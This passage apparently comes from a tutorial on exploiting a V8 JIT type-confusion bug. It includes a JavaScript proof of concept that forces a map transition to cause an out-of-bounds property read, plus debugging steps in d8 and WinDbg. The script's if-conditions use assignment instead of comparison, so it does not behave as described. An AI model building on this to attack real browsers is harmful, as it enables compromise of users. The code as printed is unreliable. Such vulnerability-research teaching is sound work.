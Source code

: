 
As you can see, the `NameDictionary` does store the property triplets as well as additional metadata related to the number of elements in the dictionary. In this case, if our type-confusion read the data at offset 16 like in the IR above, then it would have read the number of elements that are stored within the dictionary.

To validate this information, we can reuse our proof-of-concept script and set breakpoints in WinDbg to examine the memory layout of our objects. One simple way to debug these proof-of-concept scripts is to set a breakpoint on the `RUNTIME_FUNCTION(Runtime_DebugPrint)` function in the `/src/runtime/runtime-test.cc` source file. This will trigger when `%DebugPrint` is called, allowing us to get debug output from d8 and further analyze the exploit in WinDbg.

Let's start by modifying the proof-of-concept by adding in the `DebugPrint` command before and after the object is changed. The script should look like this:

```js
function vuln(obj) {
  // Access Property a of obj, forcing a CheckMap operation
  obj.a;

  // Force a Map Transition via our side-effect
  Object.create(obj)

  // Trigger our type-confusion by accessing an out-of-bound property
  return obj.b;
}

for (let i = 0; i < 10000; i++) {
  let obj = {a:42}; // Create object with in-line properties
  obj.b = 43; // Store property out-of-line in backing store
  if (i = 1) { %DebugPrint(obj); }
  vuln(obj); // Trigger type-confusion
  if (i = 9999) { %DebugPrint(obj); }
}
```

To help analyze the memory layout of our object, we modify the proof-of-concept script to print out the object information at two points: once at iteration 1 after setting up its properties, and again at iteration 9999 after JIT kicks in and modifies the object.

To debug this script, we can launch d8 within WinDbg using the `--allow-natives-syntax` flag, followed by the location of the proof-of-concept script. For example:

<p align="center"><a href="/images/WinDBG-Start.png"><img src="/images/WinDBG-Start.png"></a></p>

